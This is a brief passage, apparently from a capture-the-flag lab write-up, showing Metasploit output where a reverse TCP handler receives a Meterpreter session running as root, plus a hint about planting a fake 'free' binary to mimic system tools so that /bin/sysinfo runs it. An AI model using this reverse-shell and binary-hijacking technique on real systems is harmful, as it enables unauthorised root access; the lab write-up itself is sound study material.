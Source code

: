 ```
[*] Started reverse TCP handler on 10.10.14.4:4445 
[*] Sending stage (3012516 bytes) to 10.10.10.185
[*] Meterpreter session 1 opened (10.10.14.4:4445 -> 10.10.10.185:37186) at 2020-08-23 02:39:25 -0700

meterpreter > getuid
Server username: no-user @ ubuntu (uid=0, gid=0, euid=0, egid=0)
```
:). If you faced any troubles getting shell back, just copy our `free` to mimic the other binaries `fdisk` or `lshw`, then run `/bin/sysinfo` again. :)
